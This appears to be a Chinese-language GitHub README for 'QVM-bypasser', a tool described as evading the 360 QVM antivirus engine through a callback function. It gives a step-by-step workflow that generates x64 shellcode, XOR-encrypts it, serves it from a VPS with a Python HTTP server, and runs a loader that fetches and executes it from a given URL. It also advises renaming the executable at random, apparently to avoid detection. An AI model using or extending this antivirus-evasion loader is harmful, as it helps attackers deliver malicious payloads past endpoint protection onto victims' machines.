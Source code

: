 # QVM-bypasser

使用简单的回调函数bypassQVM引擎查杀



## 使用方法

1、生成x64位的shellcode

![image-20231202143904504](.\images\1.png)

2、使用xor.exe进行异或

```
Usage: xor.exe <input_filename> <output_filename> <key>
```



![image-20231202144301920](images\2.png)

3、将生成的 enc.bin 文件上传到 VPS ，开启 HTTP 服务

```
python -m http.server 80
```

![image-20231202144526524](images\3.png)

4、执行加载

使用之前最好将文件名改一下，改成随机的

```
Usage: QVM-bypasser.exe <url> <xor_key>
```

![image-20231202144716758](images\4.png)

![image-20231202144833469](images\5.png)



## 截图

![image-20231202150806484](images\6.png)
